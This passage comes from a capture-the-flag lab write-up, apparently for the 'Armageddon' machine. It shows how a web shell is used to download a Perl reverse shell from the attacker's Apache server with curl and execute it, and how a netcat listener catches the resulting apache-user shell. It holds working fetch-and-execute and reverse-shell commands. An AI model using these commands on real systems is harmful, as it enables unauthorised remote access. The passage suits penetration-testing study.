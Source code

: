 
The web shell above isn't great, so we'll simply use it to download and execute a reverse shell. In this machine's case, we determined a Perl shell worked well.

Below we see the commands to transfer the shell to our attacking machine's Apache server, and start the server. The last `vim` command includes modifying the listening IP and port.
```
┌──(kali㉿kali)-[/var/www/html]
└─$ sudo cp /usr/share/webshells/perl-reverse-shell.pl /var/www/html/perl-reverse-shell.pl
┌──(kali㉿kali)-[/var/www/html]
└─$ sudo service apache2 start

┌──(kali㉿kali)-[/var/www/html]
└─$ sudo vim perl-reverse-shell.pl
```

We've modified the following portion of *perl-reverse-shell.pl*,  
```Perl
# Where to send the reverse shell.  Change these.
my $ip = '10.10.14.3';
my $port = 443;
```

First we start a Netcat listener on port 443 of the attacking machine via `sudo nc -lnvp 443`, and then use the web shell we've achieved on the victim machine to download and execute our perl reverse shell,   

Victim downloads and executes reverse shell.  
```
armageddon.htb>> curl http://10.10.14.3/perl-reverse-shell.pl --output shell.pl
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3712  100  3712    0     0   4141      0 --:--:-- --:--:-- --:--:--  4138
armageddon.htb>> perl shell.pl
Content-Length: 0
Connection: close
Content-Type: text/html

Content-Length: 40
Connection: close
Content-Type: text/html

Sent reverse shell to 10.10.14.3:443<p>
armageddon.htb>>
```

Attacker catches shell.
```
┌──(kali㉿kali)-[/var/www/html]
└─$ sudo nc -lnvp 443             
listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.233] 34110
 19:18:10 up  2:32,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
Linux armageddon.htb 3.10.0-1160.6.1.el7.x86_64 #1 SMP Tue Nov 17 13:59:11 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
/
apache: cannot set terminal process group (-1): Inappropriate ioctl for device
apache: no job control in this shell
apache-4.2$
```
